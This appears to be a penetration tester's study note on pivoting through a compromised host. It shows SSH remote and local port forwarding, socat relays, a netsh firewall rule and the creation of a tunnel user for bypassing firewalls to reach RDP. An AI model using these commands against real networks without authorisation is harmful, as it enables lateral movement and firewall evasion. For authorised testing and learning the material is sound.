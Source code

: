 ![[9fb527b63773be22aa214ea2d06d1351.png]]

`useradd <tunnel username> -m -d /home/<username> -s /bin/true` - Create a user in the attacker machine without access to console for tunneling.
`passwd <tunnel username>` - Set a password to use for creating the tunnels.

##### SSH Remote Port Forwarding

Remote Port Forwarding let's you to take reachable port from SSH client and project it into a remote SSH server, in this case if PC-1 can reach port 3389 but the attacker is blocked by the firewall Remote Port Forwarding can be used for pivoting.

![[49401a0687c38a1ce78fdd5852aca5a7.png]]

You will need port forwarding for example if you only have console access to PC-1 and can RDP into the server from there, or if you need a specific scripting language that isn't available in a machine you compromised.

`ssh <tunnel username>@<ip address> -R 3389:<target ip address>:3389 -N` - `-N` is to prevent the client from asking for a shell, `-R` requests a remote port forward, the first port is the port we will be opening at the SSH server, following by the IP and port of the socket we will be forwarding, port number don't have to match.

`xfreerdp /v:127.0.0.1 /u:<username> /p:<password>` - From the attacker machine RDP into the forwarded port to reach the server.

##### SSH Local Port Forwarding

Local Port Forwarding allows as to pull a port from an SSH server to SSH client, so if any host can't directly connect to as but can connect to PC-1 for example he can reach the attacker services trough the pivot host.

It gives us the ability to run reverse shells that usually wouldn't be able to connect back to us, or to make any service we want available to a machine that can't directly connect to us.

![[23c086c89a5bbe2fa364c95064235fb5.png]]

`ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N` - Forward port 80 from the attacker machine and make it available on PC-1, `-L` is for local port forwarding, `*:80` is the local socket used by PC-1 to receive connections and `127.0.0.1:80` is the remote socket to connect to from the attacker's perspective.

`netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80` - Add a firewall rule to allow incoming connections, administrative privileges are needed.

##### Port Forwarding With socat

Socat can be more detectable because we need to transfer it to the pivot host, but it's worth a shot when SSH isn't available.

`socat TCP4-LISTEN:1234,fork TCP4:<ip address>:4321` - Open port 1234 and forward any connection to port 4321 with the mentioned IP address.

With the `fork` option socat can handle multiple connections at the same time without closing.

`socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389` - In our example to connect with RDP you can use this command, it can't direct the connection to the attacker's machine directly like with SSH, but it will open a port on PC-1 that the attacker can then connect to.
